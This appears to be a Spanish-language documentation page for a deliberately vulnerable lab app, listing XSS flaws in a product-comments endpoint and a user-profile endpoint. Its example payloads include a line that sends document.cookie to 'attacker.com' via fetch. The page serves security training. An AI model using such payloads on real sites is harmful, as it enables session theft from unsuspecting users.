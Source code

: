 ```yaml
---
layout: default
title: Cross-Site Scripting (XSS)
nav_order: 4
parent: Vulnerabilidades
---
```


# Cross-Site Scripting (XSS)

## 4.1 XSS en Comentarios
- **Ubicación**: `/api/v1/products/{id}/comments`
- **Descripción**: Comentarios sin sanitizar permiten XSS
- **Pasos**:
  1. Agregar comentario en producto
  2. Insertar payload XSS
- **Payloads de ejemplo**:
  ```javascript
  <script>alert(document.cookie)</script>
  <img src=x onerror="fetch('http://attacker.com/'+document.cookie)">
  <svg onload="alert(1)">
  ```
- **Criterio de éxito**: Script ejecutado al ver comentario
- **Impacto**: Robo de sesión, defacement

## 4.2 XSS en Perfil
- **Ubicación**: `/api/v1/users/profile`
- **Descripción**: Campos de perfil permiten HTML
- **Pasos**:
  1. Editar perfil
  2. Insertar payload en bio
- **Criterio de éxito**: HTML/JavaScript ejecutado en perfil
- **Impacto**: Ataque a otros usuarios
